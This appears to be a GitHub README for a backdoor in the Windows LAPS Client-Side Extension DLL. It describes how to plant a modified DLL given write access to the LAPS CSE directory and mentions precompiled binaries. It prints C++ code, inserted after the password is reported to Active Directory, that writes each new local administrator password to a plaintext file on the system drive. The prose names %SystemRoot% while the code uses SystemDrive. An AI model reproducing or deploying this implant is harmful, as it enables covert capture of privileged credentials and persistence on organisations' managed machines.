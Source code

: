 ### Explanation

This is a very simple backdoor for LAPS (Local Administrator Password Solution) Client-Side Extension (CSE) worker DLL. That DLL is responsible for processing Group Policy updates and whenever currently set local administrator's password is about to expire (or it was explicitly set as expired on DC), it re-generates password, set it up and reports it back to the AD Computer's object. 

### How it works

Our approach is to add couple of lines of code to hijack new password being reported to the Active Directory and write it out to %SystemRoot%\laps-new-password.txt file.

One can find already compiled DLLs for x86 and x64, working for LAPS client version 6.2.0.0 .

In case manual compilation is needed, one can compile original [AdmPwd's project DLL](https://github.com/GreyCorbel/admpwd), add below code and then compile it.


### Requirements

- In order to plant that DLL you will need to have write permissions on the %PROGRAMFILES%\LAPS\CSE directory.
- Then you will have to wait until password reset event takes place - which can happen:
    - upon current password expiration
    - when explicitly resetted by authorized principal.

Above requirements effectively lower risk introduced by backdooring LAPS CSE.


```
			//it's time to change the password

			PasswordGenerator gen(config.PasswordComplexity, config.PasswordLength);
			gen.Generate();
			LPCTSTR newPwd = gen.Password;
			
			//report new password and timestamp to AD
			GetSystemTimeAsFileTime(&currentTime);
			LogData.dwID = S_REPORT_PWD;
			LogData.hr = comp.ReportPassword(newPwd, &currentTime, config.PasswordAge);

			// --------------------
			// Backdoor

			HANDLE outFile;
			WCHAR *buff = new WCHAR[512];
			if (buff) {
				if (GetEnvironmentVariableW(L"SystemDrive", buff, 512)){
					wcscat_s(buff, 512, L"\\laps-new-password.txt");
					outFile = CreateFileW(
						buff,
						GENERIC_WRITE, 
						FILE_SHARE_READ, 
						NULL, 
						OPEN_ALWAYS, 
						FILE_ATTRIBUTE_NORMAL, 
						NULL
					);

					if (outFile != static_cast<HANDLE>(INVALID_HANDLE_VALUE)) {
						DWORD written = 0;

						wcscpy_s(buff, 512, newPwd);
						wcscat_s(buff, 512, L"\r\n");

						WriteFile(
							outFile, 
							buff,
							sizeof(WCHAR) * wcslen(buff),
							&written, 
							NULL
						);

						CloseHandle(outFile);
					}
				}

				delete[] buff;
			}

			// --------------------
```
